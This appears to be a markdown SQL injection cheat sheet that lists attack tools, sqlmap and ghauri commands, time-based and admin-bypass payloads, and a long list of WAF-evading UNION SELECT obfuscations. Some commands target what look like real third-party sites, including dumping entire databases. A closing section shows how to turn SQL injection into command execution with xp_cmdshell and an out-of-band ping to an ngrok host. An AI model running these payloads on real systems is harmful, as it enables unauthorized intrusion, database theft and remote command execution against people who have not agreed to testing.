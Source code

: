 
---

### **SQL Injection Resources**

#### **1. Tools**
- **SqliSniper**:
  ```bash
  https://github.com/danialhalo/SqliSniper
  ```
- **Bypass WAF SQLMap**:
  ```bash
  https://github.com/gagaltotal/Bypass-WAF-SQLMAP/blob/master/WAF-SQLMap-Full
  ```

#### **2. Captcha Bypass**
- **HackerOne Report**:
  ```bash
  https://hackerone.com/reports/1018621
  ```

#### **3. SQL Injection Payloads**
- **Gist by v3rlly**:
  ```bash
  https://gist.github.com/v3rlly/6a81e4cb1de1ce00dc30890adf5db0cd?fbclid=IwAR2_cofODxhHoSPdvtNQ-3BdxN5Zyzx78As4DEOFaL281EUdSAfVkN7dl-M
  ```

#### **4. SQLMap Commands**
- **Basic SQLMap Command**:
  ```bash
  sqlmap -u "URL" --random-agent --tamper="between,randomcase,space2comment" -v 2 --dbs --level 5 --risk 3 --batch --smart
  ```
- **Advanced SQLMap Command**:
  ```bash
  sqlmap -u "https://login.wellhive.com/oauth2/default/v1/authorize?client_id=0oah0y4hsmM9UWgZi4h5&code_challenge=_xwMoSpRTma4yDsVmAIqv3kFhUaPM1_89TdG54bMKxE&code_challenge_method=S256&nonce=aeVdd3T7rvLMZBkGsNi1w8zv3Njl6BFhl6Igpblqbzx4eETCxzcK2HhBczzCZvpl&redirect_uri=https%3A%2F%2Fapp.wellhive.com%2Flogin%2Fcallback&response_type=code&state=HXwRnNUaVjQlrDyXuKZBCU0xXr1nxnWMLfDXQ7WVUOUDbbeaULFVCKe1V2SLkGpy&scope=openid%20email" --hex --skip-waf --dbs --risk 3 --level 5 --current-db Altibase --skip-waf --random-agent
  ```

#### **5. SQL Injection Techniques**
- **Defeating Length Filters**:
  ```bash
  https://kuldeep.io/posts/defeating-length-filters-to-dump-the-database-sqli/
  ```
- **MySQL Port Open**:
  ```bash
  https://medium.com/@konqi/exploiting-grafana-to-achieve-remote-command-execution-5eb0f99cb107
  ```
- **Sleep Payload**:
  ```bash
  - 0’XOR(if(now()=sysdate(),sleep(6),0))XOR’Z
  - 63770’XOR(if(now()=sysdate(),sleep(6),0))XOR’Z
  - a%3C%22+UNION+SELECT+SLEEP(20);--+-
  
  ```
  
- **PortSwigger SQL Injection Cheat Sheet**:
  ```bash
  https://portswigger.net/web-security/sql-injection/cheat-sheet
  ```
- **NotSoSecure SQL Injection Lab**:
  ```bash
  https://notsosecure.com/sql-injection-lab
  ```

#### **6. SQL Injection Payloads**
- **Information Schema**:
  ```bash
  '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
- **Admin Bypass**:
  ```bash
  admin%bf'or+1=1+--+&
  ```
- **XOR Sleep Payload**:
  ```bash
  'XOR(if(now()=sysdate(),sleep(33),0))OR'
  ```
- **Sitemap SQL Injection**:
  ```bash
  target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#
  ```
- **SQLMap with Tamper**:
  ```bash
  sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast
  ```

#### **7. Bypass SQL Union Select**
- **Union Select Bypass Payloads**:
  ```bash
  /*!50000%55nIoN*/ /*!50000%53eLeCt*/
  %55nion(%53elect 1,2,3)-- -
  +union+distinct+select+
  +union+distinctROW+select+
  /**//*!12345UNION SELECT*//**/
  /**//*!50000UNION SELECT*//**/
  /**/UNION/**//*!50000SELECT*//**/
  /*!50000UniON SeLeCt*/
  union /*!50000%53elect*/
  +#uNiOn+#sEleCt
  +#1q%0AuNiOn all#qa%0A#%0AsEleCt
  /*!%55NiOn*/ /*!%53eLEct*/
  /*!u%6eion*/ /*!se%6cect*/
  +un/**/ion+se/**/lect
  uni%0bon+se%0blect
  %2f**%2funion%2f**%2fselect
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  REVERSE(noinu)+REVERSE(tceles)
  /*--*/union/*--*/select/*--*/
  union (/*!/**/ SeleCT */ 1,2,3)
  /*!union*/+/*!select*/
  union+/*!select*/
  /**/union/**/select/**/
  /**/uNIon/**/sEleCt/**/
  +%2F**/+Union/*!select*/
  /**//*!union*//**//*!select*//**/
  /*!uNIOn*/ /*!SelECt*/
  +union+distinct+select+
  +union+distinctROW+select+
  uNiOn aLl sElEcT
  UNIunionON+SELselectECT
  /**/union/*!50000select*//**/
  0%a0union%a0select%09
  %0Aunion%0Aselect%0A
  %55nion/**/%53elect
  uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
  %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/
  %0A%09UNION%0CSELECT%10NULL%
  /*!union*//*--*//*!all*//*--*//*!select*/
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
  /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
  +UnIoN/*&a=*/SeLeCT/*&a=*/
  union+sel%0bect
  +uni*on+sel*ect+
  +(UnIoN)+(SelECT)+
  +(UnI)(oN)+(SeL)(EcT)
  +’UnI”On’+'SeL”ECT’
  +uni on+sel ect+
  +/*!UnIoN*/+/*!SeLeCt*/+
  /*!u%6eion*/ /*!se%6cect*/
  uni%20union%20/*!select*/%20
  union%23aa%0Aselect
  /**/union/*!50000select*/
  /^.*union.*$/ /^.*select.*$/
  /*union*/union/*select*/select+
  /*uni X on*/union/*sel X ect*/
  +un/**/ion+sel/**/ect+
  +UnIOn%0d%0aSeleCt%0d%0a
  UNION/*&test=1*/SELECT/*&pwn=2*/
  un?<ion sel="">+un/**/ion+se/**/lect+
  +UNunionION+SEselectLECT+
  +uni%0bon+se%0blect+
  %252f%252a*/union%252f%252a /select%252f%252a*/
  /%2A%2A/union/%2A%2A/select/%2A%2A/
  %2f**%2funion%2f**%2fselect%2f**%2f
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  /*!UnIoN*/SeLecT+
  %6c%75%33%6b%79%31%33' AND 1=CAST((SELECT version()) AS int) --
  ```

#### **8. Automated SQL Injection Testing**
- **Ghauri**:
  ```bash
  cat sql | while read host do;do ghauri -u $host --batch --level=3  -b --current-user --current-db --hostname --dbs ;done
  ```
- **SQLMap Batch Testing**:
  ```bash
  sqlmap -m sql -batch --random-agent --level 5 --risk 3
  ```
- **SQLMap with Tamper**:
  ```bash
  python3 /opt/sqlmap/sqlmap -u "https://eneftee-black[.]market/news.php?id=2" --batch --dbms=mysql --random-agent --level 5 --risk 3 --tamper=space2comment --dump-all --threads 10
  ```

---

### **How to Use This Information**
1. **Tools**:
   - Use tools like SqliSniper and SQLMap to automate SQL injection detection and exploitation.

2. **Captcha Bypass**:
   - Study the HackerOne report to understand how to bypass CAPTCHA mechanisms.

3. **Payloads**:
   - Experiment with different SQL injection payloads to bypass WAFs and other security measures.

4. **Techniques**:
   - Use advanced techniques like UNION SELECT bypass and length filter bypass to exploit SQL injection vulnerabilities.

5. **Automation**:
   - Automate SQL injection testing using scripts and tools like Ghauri and SQLMap.
### SQLI to RCE

```bash
; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE; —

;EXEC xp_cmdshell ‘ping xxxxxxxx.ngrok.io’; —

https://systemweakness.com/sql-injection-to-remote-command-execution-rce-dd9a75292d1d
```


---
- https://github.com/jhaddix/tbhm/blob/master/06_SQLi.md
- https://medium.com/@0x3adly/from-sql-injection-to-rce-leveraging-vulnerability-for-maximum-impact-2fb356907eed

